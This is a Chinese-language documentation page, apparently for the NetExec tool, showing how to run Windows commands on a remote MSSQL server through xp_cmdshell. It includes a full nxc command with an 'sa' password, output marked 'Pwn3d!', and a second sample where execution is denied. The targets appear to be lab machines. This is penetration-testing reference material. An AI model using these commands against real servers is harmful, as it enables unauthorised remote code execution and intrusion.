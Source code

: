 ```yaml
---
description: 使用 NetExec 执行 Windows 命令
---
```


# Windows 命令

### 执行 Windows 命令

此选项使用 `xp_cmdshell` 在远程主机上执行命令。

```
#~ nxc mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)
MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------
MSSQL       10.10.10.59     1433   None             tally\sarah
```

如果权限被**拒绝**:

```
MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)
MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.52     1433   None             None
```

{% hint style="info" %}
在使用 MSSQL 时,你可以使用 [quentinhardy](https://github.com/quentinhardy) 开发的工具 [MSDAT](https://github.com/quentinhardy/msdat)
{% endhint %}

{% embed url="https://github.com/quentinhardy/msdat" %}
